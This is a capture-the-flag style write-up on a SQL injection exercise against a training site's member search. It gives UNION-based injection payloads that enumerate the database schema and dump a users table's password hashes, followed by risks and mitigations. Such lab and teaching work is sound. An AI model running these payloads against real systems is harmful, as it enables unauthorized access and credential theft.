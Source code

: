 # SQL Injection - User Data

A SQL injection attack consists of insertion of a SQL query via the input data from the client to the application. By interfering with the requests that an application makes to it's database.

## Breach type

* A03:2021 Injection 
    * CWE-89: SQL Injection (In-band SQLi):
        * Error-based SQLi: exploit error messages thrown by the database server to obtain information about the structure of the database.
        * Union-based SQLi: exploit the UNION SQL operator to combine the result of two or more SELECT statements into a single result.
* A01:2021 Broken Access Control
    * CWE-200: Exposure of Sensitive Information to an Unauthorized Actor.

## How to find the flag

* Go to the `Members` page
* Do a regular text query and understand that it returns SQL MariaDB errors

Enter the following commands:

* `105 OR 1=1`
    * By injecting `105 OR 1=1` into a vulnerable SQL query, the attacker attempts to manipulate the logic of the query to always return true (1=1). 
    * This can bypass authentication or access control mechanisms if the application does not properly sanitize input. 
    * In this context the command displays the member list. The fourth one has the fields : `id (105 OR 1=1)`, `first name (Flag)`, `surname (GetThe)`.
    * We now need to find where these informations are stored in the database.

* `105 OR 1=1 UNION SELECT table_name, table_schema FROM information_schema.tables `
    * With this command we display all the schemas and their tables and discover that there's a table called 'users'.
    * This table is probably the best place to find the flag. 

* `105 OR 1=1 UNION SELECT table_name, column_name FROM information_schema.columns`
    * The intention behind this SQL line is to retrieve the names of tables and their respective columns from the information_schema.columns table.
    * We now have a list of all the columns of the 'users' table

* `105 OR 1=1 UNION SELECT countersign, 1 FROM users`
    * In the countersign field corresponding to the "GetThe Flag" user we find a hashed code in MD5 : 5ff9d0165b4f92b14994e5c685cdce28. 
    * When we decode it we find "FortyTwo".
    * We can't do anything with it yet.

* `105 OR 1=1 UNION SELECT Commentaire, 1 FROM users`
    * In the Commentaire field we find an explanation of how to retrieve the flag : decode `5ff9d0165b4f92b14994e5c685cdce28`, put the result in lowercase, encrypt it in SHA-256 and you'll get your flag. 

## Risks

* Sensitive informations data breaches such as logins, passwords, bank informations, etc.
* Then Attackers can impersonate users or impersonate database administrator and obtain all database privileges.
* They can alter data in database and add new database for example in a financial app : alter balance, transaction, transfer money.
* They can delete records from database, even if the admin makes database backups, this could affect application availability until the database is restored. 
* Attackers can also inject informations to bypass authentication pages to read and write files directly into the server such as backdoors, viruses.
* In some database servers we can access to the operating system from database server.

## How to avoid

* Use Parameterized Queries:
    * Don't trust any user input. Utilize prepared statements or parameterized queries with placeholders for user input. 
    This ensures that input values are not directly concatenated into the SQL query string and avoid SQL injection.
    * All input must be sanitize, to remove potential malicious code element such as special characters like single quotes. They're used in SQLi attacks.
    * Most languages and frameworks offer methods to escape special characters.

* Turn off the visibility of database errors on your production sites, they can be used to gain information about your database.

* Use `LIMIT` eveywhere in the Database to limit the data display in case of attack

* Use SQLi detection tools each time app is update, in the event the vulnerability cannot be fixed immediately, using a firewall allows you to patch while the vulnerability was fixed.

## Sources
* https://owasp.org/Top10/fr/A03_2021-Injection/
* https://www.vaadata.com/blog/fr/injections-sql-principes-impacts-exploitations-bonnes-pratiques-securite/
* https://www.sqlinjection.net/table-names/
* https://www.sqlinjection.net/column-names/
* https://www.acunetix.com/websitesecurity/sql-injection/
* https://www.invicti.com/learn/in-band-sql-injection/